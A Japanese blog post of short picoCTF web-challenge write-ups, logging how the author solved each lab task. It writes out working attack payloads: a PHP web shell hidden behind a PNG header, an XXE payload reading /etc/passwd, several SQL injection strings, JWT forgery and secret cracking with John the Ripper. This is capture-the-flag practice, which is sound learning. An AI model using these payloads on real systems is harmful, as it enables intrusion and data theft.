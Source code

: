 ```yaml
---
title: "picoCTF - web"
date: 2024-05-02T10:39:24+09:00
draft: false
---
```


なかなか初心者を抜け出せないので，量をこなそう作戦\
解いたことがある問題は記載しない

### WebDecode

開発者ツール的なので About ページを見ると怪しい文字列があるので，base64 デコード

### Intro to Burp

アカウントを作ると OTP を求められる．
リクエストの otp= を消してリクエストを送ると OK

```curl -X POST http://titan.picoctf.net:54630/dashboard -H 'Cookie: session=.eJxdjDkOwyAUBe9CnQIwi8llEBhQkA0fsciKotw9tKSct8wHHbG_0RPFMybIgB7oaDXoDqfPMxZSWYUp3VwQnOzMcUbMrri1WAbiFSaUGSnU_IVxXTqb5Bcb9DKZ4U1wPrGY1m6obtmUF2Sv80jW16UYzdc_4_cH_-A4Iw.ZjLzXA.osPDJuPjvfZFlwhe-7dVDbKhZj0'```

### Unminify

開発者ツールを見る

### Trickster

画像をアップロードできる．
アップロードできる系はシェルが通りそうなことを HTB で学んだのでやってみる．

```text
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

```robots.txt``` から ```/uploads/``` にアップロードした画像が置いてあるような気がする．
また，```X-Powered-By``` を見れば PHP 製であることが分かるので，PHP が通る．

さらに ```instructions.txt``` を見ると，```ut wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )``` みたいに書いてあるので， ```50 4E 47``` -> PNG が書いてあればいいんだと思う

以下のようなファイルを作ってアップロードする．

```php
PNG
<div>Use `?cmd=` param.</div>
<pre><?php system($_GET["cmd"]);?></pre>
```

あとは ```curl -s 'http://atlas.picoctf.net:62518/uploads/a.png.php?cmd=ls%20../' | strings``` で見つかったファイルを cat すると flag が見つかる．

### find me

burp suite で通信を見ると，/nextpage みたいなところにリダイレクトしてから /home に遷移している．
id を見ると base64 なのでデコードすると flag を得られる．

### MatchTheRegex

```javascript
    function send_request() {
        let val = document.getElementById("name").value;
        // ^p.....F!?
        fetch(`/flag?input=${val}`)
            .then(res => res.text())
            .then(res => {
                const res_json = JSON.parse(res);
                alert(res_json.flag)
                return false;
            })
        return false;
    }
```

正規表現にマッチするものを入力すればいいらしい．
```picoCTF``` で通った．
なんだこれは

### SOAP

/etc/passwd が見れればいいらしい．
XML が見えるリクエストがあるので，LFI を狙って XXE を試みる．

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY secretData SYSTEM "file:///etc/passwd">
]>

<data>
<ID>
2
&secretData;
</ID>
</data>
```

### More SQLi

まずログインする．

適当に入れると SQL のペイロードを見せてくれる．
password が先に来てるので，username は適当，password を ```' OR '1'='1';``` にしてログイン．

テーブルが見えるので，```' OR '1'='1' UNION SELECT 1,2,3 FROM sqlite_master --``` で全部表示する．
色々テーブルが見えるので，いくつか試す．

```picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}```

こういう SQLi 系，いつもガチャガチャやってたらできてしまうので，ちゃんと仕組みを理解したい

### Java Code Analysis!?

JWT っぽい Authorization ヘッダがあるので，デコードしてみると

```json
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1715232635,
  "iat": 1714627835,
  "userId": 1,
  "email": "user"
}
```

のようなのが見えるので多分これだろうと思って進める．
alg を none にして送信すれば通るだろうと思ったがおそらく対策されて通らなかったので，真面目に署名をつける．

```java
private String generateRandomString(int len) {
        // not so random
        return "1234";
    }
```

とあるので 1234 が秘密鍵になっている．

```json
{"typ":"JWT","alg":"HS256"}{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1715232635,
  "iat": 1714627835,
  "userId": 1,
  "email": "user"
}
```

で送ってみると失敗する．
署名がうんぬんとは言われていないので，1234 で合ってるっぽい

email と userId (おそらく userId だけ) を見ているようなので，ここも admin に変えると通る．

### Secrets

```http://saturn.picoctf.net:62722/secret/hidden/superhidden/index.html```

### SQLiLite

```text
username: ' OR '1' = '1';
password: aaaa
SQL query: SELECT * FROM users WHERE name='' OR '1' = '1';' AND password='aaaa'
```

ソースコードに隠れているのでデベロッパーツールで見る．

### Irish-Name-Repo 1

```' OR '1'='1';```

### Irish-Name-Repo 2

```admin'--```

ユーザー名を admin で固定してあとはコメントアウト

### Irish-Name-Repo 3

burp suite で見て，debug=1 にするとペイロードを教えてくれる．
入力した文字が変換されてから出力されることが分かったので，それに対応するように ```' OR 1=1;``` と入力すると通る．

```'!='' --``` でも通るらしい．

### JaWT Scratchpad

JWT か，と思いながら burp をみると cookie に jwt が入っている．
user を admin に変えて，alg を none に変えて入力すると通らない．
署名をちゃんと考える必要がある．

全然分からんので writeup を見ると，john the ripper で解けるらしい．
知らなんだ

```john --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt```

で ```ilovepico``` なので，jwn.io に入れてデコードされたのを入力すると通る．

### Web Gauntlet 3

前に Gauntlet 2 を解いたんだろうか？

filter を見ると ```Filters: or and true false union like = > < ; -- / / admin``` ということらしい．
一方で空白文字はフィルタされていないので使える．
そこで，文字列連結を考える(```'adm' || 'in'```)．
そのうえで，password には OR が入っているので，使えない．
そこで，```0' IS NOT '1``` で常に True をもらえるようにする．

### JAuth

また JWT．
今度は alg を none に設定するとうまく進む．

以下個人的注意点

- <https://jwt.io/> だと，alg: none が動作しないので，代わりに <https://token.dev/> を使う．
- JWT トークンは必ず 3 つのセクションがあるので，署名のあるなしに関わらず ```.``` を付ける．
